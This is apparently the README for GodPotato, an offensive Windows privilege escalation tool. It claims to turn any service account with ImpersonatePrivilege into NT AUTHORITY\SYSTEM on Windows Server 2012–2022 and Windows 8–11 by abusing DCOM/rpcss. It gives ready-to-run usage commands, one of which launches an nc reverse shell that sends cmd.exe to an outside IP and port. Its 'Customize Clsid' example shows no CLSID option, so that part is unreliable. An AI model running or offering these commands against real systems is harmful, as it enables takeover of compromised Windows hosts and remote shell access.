


# GodPotato


Based on the history of Potato privilege escalation for 6 years, from the beginning of RottenPotato to the end of JuicyPotatoNG, I discovered a new technology by researching DCOM, which enables privilege escalation in Windows 2012 - Windows 2022, now as long as you have "ImpersonatePrivilege" permission. Then you are "NT AUTHORITY\SYSTEM", usually WEB services and database services have "ImpersonatePrivilege" permissions.


Potato privilege escalation is usually used when we obtain WEB/database privileges. We can elevate a service user with low privileges to "NT AUTHORITY\SYSTEM" privileges.
However, the historical Potato has no way to run on the latest Windows system. When I was researching DCOM, I found a new method that can perform privilege escalation. There are some defects in rpcss when dealing with oxid, and rpcss is a service that must be opened by the system. , so it can run on almost any Windows OS, I named it GodPotato


# Affected version

Windows Server 2012 - Windows Server 2022 Windows8 - Windows 11


# Example

```

    FFFFF                   FFF  FFFFFFF
   FFFFFFF                  FFF  FFFFFFFF
  FFF  FFFF                 FFF  FFF   FFF             FFF                  FFF
  FFF   FFF                 FFF  FFF   FFF             FFF                  FFF
  FFF   FFF                 FFF  FFF   FFF             FFF                  FFF
 FFFF        FFFFFFF   FFFFFFFF  FFF   FFF  FFFFFFF  FFFFFFFFF   FFFFFF  FFFFFFFFF    FFFFFF
 FFFF       FFFF FFFF  FFF FFFF  FFF  FFFF FFFF FFFF   FFF      FFF  FFF    FFF      FFF FFFF
 FFFF FFFFF FFF   FFF FFF   FFF  FFFFFFFF  FFF   FFF   FFF      F    FFF    FFF     FFF   FFF
 FFFF   FFF FFF   FFFFFFF   FFF  FFF      FFFF   FFF   FFF         FFFFF    FFF     FFF   FFFF
 FFFF   FFF FFF   FFFFFFF   FFF  FFF      FFFF   FFF   FFF      FFFFFFFF    FFF     FFF   FFFF
  FFF   FFF FFF   FFF FFF   FFF  FFF       FFF   FFF   FFF     FFFF  FFF    FFF     FFF   FFFF
  FFFF FFFF FFFF  FFF FFFF  FFF  FFF       FFF  FFFF   FFF     FFFF  FFF    FFF     FFFF  FFF
   FFFFFFFF  FFFFFFF   FFFFFFFF  FFF        FFFFFFF     FFFFFF  FFFFFFFF    FFFFFFF  FFFFFFF
    FFFFFFF   FFFFF     FFFFFFF  FFF         FFFFF       FFFFF   FFFFFFFF     FFFF     FFFF


Arguments:

        -cmd Required:True CommandLine (default cmd /c whoami)

Example:

GodPotato -cmd "cmd /c whoami"


```


Use the program's built-in Clsid for privilege escalation and execute a simple command


```
GodPotato -cmd "cmd /c whoami"
```




Customize Clsid and execute commands

```
GodPotato -cmd "cmd /c whoami"

```





Execute reverse shell commands

```
GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"
```
# Thanks

zcgonvh


skay


# License

[Apache License 2.0](/LICENSE) 
